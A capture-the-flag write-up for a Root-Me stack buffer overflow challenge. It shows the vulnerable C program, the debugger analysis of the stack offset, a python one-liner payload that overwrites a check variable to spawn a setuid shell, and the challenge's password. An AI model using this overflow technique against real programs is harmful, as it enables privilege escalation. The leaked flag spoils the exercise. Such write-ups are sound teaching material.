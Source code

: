 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**, which makes it able to override the value of **check**.<br>
- Disassembling the main function and we set break point at the **fgets function line**. Then run the program

![image](https://user-images.githubusercontent.com/48288606/146743588-ed79be7a-e9f6-48b8-9aa2-a14343cbf808.png)

- Try inputing `aaaa` and watch that value's address.

![image](https://user-images.githubusercontent.com/48288606/146744069-794864a9-8906-4e64-a346-9bb1abda2bcb.png)

- Here, we examine the address of **aaaa** and in range 20 adjacent addressand  we see that our **check** 's value is at **0xbffffb0c**. And our **aaaa** is at **0xbffffae4**. So we need the calculate the distance just write the desired value to the proper position. 

![image](https://user-images.githubusercontent.com/48288606/146745301-7402ef93-29aa-4605-a747-d7eac50acbd0.png)

### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Then just need to read the `.passwd` file.

Pass: 1w4ntm0r3pr0np1s

